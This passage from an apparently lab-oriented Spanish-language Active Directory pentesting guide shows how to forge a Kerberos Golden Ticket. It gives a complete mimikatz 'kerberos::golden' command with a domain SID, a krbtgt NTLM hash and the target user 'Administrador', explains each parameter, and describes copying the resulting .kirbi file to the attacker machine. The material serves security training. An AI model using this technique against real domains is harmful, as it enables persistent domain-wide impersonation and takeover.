 Guardamos el output del comando en un archivo ya que vamos a necesitar ciertos datos para montar un Golden Ticket. A continuación generamos el ticket con el siguiente comando `kerberos::golden /domain:s4vicorp.local /sid:S-1-5-21-3555876161-3548447794-446757401 /rc4:6ddc8cad151c417205e1097522d904c2 /user:Administrador /ticket:golden.kirbi`

- **/domain**: Dominio
- **/sid**: ID del usuario krbtgt
- **/rc4**: Hash NTLM
- **/user**: El usuario al que quieres impersonar
- **/ticket**: Nombre del ticket

<img src="/assets/Tips/AD/ticket.png">

La ejecución de este comando nos habrá generado un archivo `.kirbi`:

<img src="/assets/Tips/AD/kirbi.png">

Nos descargamos el archivo `golden.kirbi` y a nuestra máquina de atacante:

<img src="/assets/Tips/AD/copykirbi.png">
